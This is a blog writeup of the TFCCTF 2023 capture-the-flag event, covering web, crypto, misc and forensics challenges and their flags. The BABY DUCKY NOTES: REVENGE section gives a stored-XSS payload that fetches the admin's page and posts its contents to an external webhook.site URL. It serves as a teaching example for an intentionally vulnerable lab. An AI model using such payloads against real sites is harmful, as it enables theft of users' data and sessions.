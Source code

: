 ```yaml
---
title: "TFCCTF 2023 Writeup"
date: 2023-07-30T09:16:29-07:00
description: The TFCCTF 2023 writeup. 2 web, 1 crypto, 1 misc
images:
  - images/2023-07-30/TFCCTF-2023.png
tags:
  - ctf
showTableOfContents: true
---
```


[The Few Chosen](https://ctf.thefewchosen.com/) hosted their third annual Capture The Flag (CTF) event. A lot of teams participated. It was very interesting and had a lot of solving them. To me, this was a great educational CTF and beginner friendly.

## web/BABY DUCKY NOTES
* solved
* solves: 443
* description: Quack quack! Try and huack me!

The challenge was a note taking web app. Users can view other people's posts but posts can be hidden. The flag was in the `admin`'s first post. This one was easy since the admin post was not hidden. Simply sign up and view the `admin`'s post 

```python
    query(con, f''' 
    INSERT INTO posts (
        user_id,
        title,
        content,
        hidden
        ) VALUES (
            1,
            'Here is a ducky flag!',
            '{os.environ.get("FLAG")}',
            0
    );
    ''')
```

{{< figure
    src="ducky-1.png"
    alt="A screenshot of the BABY DUCKY NOTES challenge"
>}}

Then we get the flag `TFCCTF{Adm1n_l0St_h1s_m1nd!}`

## web/BABY DUCKY NOTES: REVENGE
* solved
* solves: 175
* description: Quack quack! Try and huack me! Again!

The challenge has patched the previous issue and made the post hidden. I tried to see if there was a way to do SQL injection, no luck. I tried to see if I can forge the cookie to pretend I was the `admin`. I found [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) that can fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys. This time the secret key was random so I couldn't forge it. It was fun to play around with the idea.

```python
app.secret_key = os.urandom(30).hex()
```

The app has a way to report a user and a bot will visit that user's post page. This can be used to our advantages. If we can somehow xss my own user's page then I can navigate to admin's own page to steal the flag.

```html
<p> {{post.get('content') | safe}} </p>
```
This code is from the post template. The usage of `safe` means that Flask will not sanitize the post content which allows us to XSS. This was my payload. It navigates to admin's page and relay the HTML response to the webhook site in the body for me.

```html
<script>
  fetch('http://localhost:1337/posts/view/admin').then(res => res.text()).then(res => {
    fetch('https://webhook.site/f87a15ba-36e1-4b45-a310-53dd5247a133', {method: 'POST', body: res});
  })
</script>
```

{{<figure
    src="ducky-2.png"
    alt="A screenshot of the response in webhook with flag in the body"
>}}

Then we get the flag `TFCCTF{Ev3ry_duCk_kn0w5_xSs!}`


## crypto/MAYDAY
* solved
* solves: 651
* description: We are sinking! The nearest ship got our SOS call, but they replied in pure gobbledygook! Are ye savvy enough to decode the message, or will we be sleepin' with the fish tonight? All hands on deck!

The message reads

```
Whiskey Hotel Four Tango Dash Alpha Romeo Three Dash Yankee Oscar Uniform Dash Sierra One November Kilo India November Golf Dash Four Bravo Zero Uniform Seven
```

This is the phonetic spelling. Just change dash and number words to `-` and numbers, and first letter of each word. You get the flag `TFCTF{WH4T-AR3-YOU-S1NKING-4B0U7}`

I found out that there is a website that for this decoding: https://cryptii.com/. Select "Spelling alphabets". A pretty cool tool. It seems similar to cyberchef.


## misc/Discord Shenanigans V3
* solved
* solves: 146
* description: Oh, look who's back for more chaotic fun! The annual wild ride of DISCORD SHENANIGANS V3 is live, and this time we're serving a delicious dish of digital disorder, courtesy of our mischievous Discord bot. For those with a discerning eye and a knack for unscrambling the scrambled, this game is your pixelated playground. The flag, you ask? Well, it's tucked away in a place that's right in front of you, yet often overlooked. Seek the unseen, unravel the unexpected, and let the shenanigans begin!

The flag was in the discord bot's profile picture. Open in a new tab to see the flag.

{{<figure
    src="discord.png"
    alt="The discord bot's profile picture with the flag"
    width="20%"
>}}


## forensics/DOWN BAD
* not solved
* solves: 238
* description: The flag is right there!

You get a png file but cannot be opened. It seems like something is wrong with the file. Using `exiftool` does not tell me much. It says it was made with `http://www.pdf-tools.com` so I wasted sometime to see if I can convert png to pdf or vise versa.

Use `binwalk` says it's a PNG and Zlib compressed. All PNG are Zlib compressed so looks like there are not hidden file inside the image.

Use `pngcheck` to see what's wrong.

```bash
➜  DOWN-BAD pngcheck -c down_bad.png
down_bad.png  CRC error in chunk IHDR (computed 1d9c52c0, expected a9d5455b)
ERROR: down_bad.png
```

After correctly the CRC, the image is showing but does not show the flag.


<!-- Use static image path because of the PNG has too incorrect dimension  -->
{{< figure
    src="/images/2023-07-30/down_bad_fixed.png"
    alt="The down bad image after fixing CRC"
    width="30%"
>}}

I tried a couple of other tools, `strings`, `stegsolve` but nothing turned out to be useful.

After the event, I found out, instead of fixing the CRC, we should be fixing the height to match the CRC. CRC is calculate based on header information. So we can find out the original height by brute forcing CRC check.

I found this [script: png-unhide](https://github.com/ryanking13/png-unhide) later. It detects the real height and fix it for you.

```bash
➜  DOWN-BAD python3 checker.py down_bad-fixed.png
[*] Height in the IHDR: 0x490
[*] Real Height: 0x540
[!!] Wrong size in the IHDR
Automatically fix the IHDR? (Y/N)y
[*] Fixed file saved to down_bad-fixed_fixed.png
```

{{< figure
    src="down_bad_flag.png"
    alt="The down bad image with flag"
    width="30%"
>}}

Someone also mentioned https://fotoforensics.com/ in the discord chat where you can see hidden rows in a file. It is a nice tool.

This challenge reminded of the `papapa` from Google's 2023 CTF. Both are changing the dimension to find out the true size of the image. I might look into the actual spec of both PNG and JPEG later. 



## crypto/DIZZY
* not solved
* solves: 411
* description: Embark on 'Dizzy', a carousel ride through cryptography! This warmup challenge spins you around the basics of ciphers and keys. Sharpen your mind, find the flag, and remember - in crypto, it's fun to get a little dizzy!

Message: 
```
T4 l16 _36 510 _27 s26 _11 320 414 {6 }39 C2 T0 m28 317 y35 d31 F1 m22 g19 d38 z34 423 l15 329 c12 ;37 19 h13 _30 F5 t7 C3 325 z33 _21 h8 n18 132 k24
```

I forgot about the super useful https://www.dcode.fr/ site that can help you guess the cipher for you. Putting the message in it guess the flag to be using "Letters Positions" `TFCCTF{th_chllng_mks_m_dzzy_;d}` but this was incorrect.

The letters positions encryption is straightforward. The word/string to be encoded is decomposed of characters/letters. For example: `T4` means `T` is in position `4`.

The actual message has 40 segments meaning 40 characters. `dcode` only returned 31 characters. We can write a simple script to decode this.

```python
cipher = 'T4 l16 _36 510 _27 s26 _11 320 414 {6 }39 C2 T0 m28 317 y35 d31 F1 m22 g19 d38 z34 423 l15 329 c12 ;37 19 h13 _30 F5 t7 C3 325 z33 _21 h8 n18 132 k24'.split()
flag = [''] * len(cipher)
for pair in cipher:
    char, pos = pair[0], int(pair[1:])
    flag[pos] = char

print(''.join(flag))
```

The script returns the flag `TFCCTF{th15_ch4ll3ng3_m4k3s_m3_d1zzy_;d}`

## Conclusion

This was a great CTF to me. The site aesthetics was great. The warmup challenges were great for beginner like me to ease into the event. Love see some other events for like this.
